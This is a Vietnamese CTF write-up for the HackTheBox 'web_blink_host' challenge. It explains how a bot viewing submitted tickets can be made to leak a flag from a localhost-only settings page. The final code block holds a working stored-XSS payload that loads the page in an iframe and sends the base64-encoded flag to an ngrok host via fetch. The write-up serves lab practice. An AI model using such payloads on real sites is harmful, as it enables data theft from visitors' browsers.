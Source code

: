 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/Untitled.png)
ta tiến hành đọc code và thấy rằng ở tệp __challenge/views/settings.html__ có flag nằm ở thẻ input
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/4.png)
<br />
tệp challenge/routes/index.js có đoạn code mô tả
chỉ cần truy cập vào đường dẫn __/settings__ thì sẽ nhận response là __settings.html__ nhưng mà đường dẫn này chỉ có ip localhost mới được truy cập.
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/1.png)

ở đoạn mã này có mô tả, ta chỉ cần gửi 1 gói __json gồm có name, email, website, message__ thì sẽ lưu vào database
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/3.png)
và sau đó con bot sẽ tiến hành truy cập đến đường dẫn __/tickets__
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/%60.png)

khi vào đường dẫn __/tickets__  này, sẽ hiện thị ra toàn bộ dữ liệu trong table __tickets__ 
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/2.png)

bây giờ ta chỉ cần chèn mã script vào bất kỳ trường __name, email, website, message__ trong gói json gửi lên __/api/submit_ticket__   để thực hiện XSS gửi flag về máy mình
``` <iframe id="iframetrung" src="settings" onload=fetch("http://027d-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/?flag="+btoa(document.getElementById('iframetrung').contentWindow.document.getElementsByTagName("input")[4].value)); >
</iframe>
```
và dùng công cụ ngrok để nhận flag gửi về
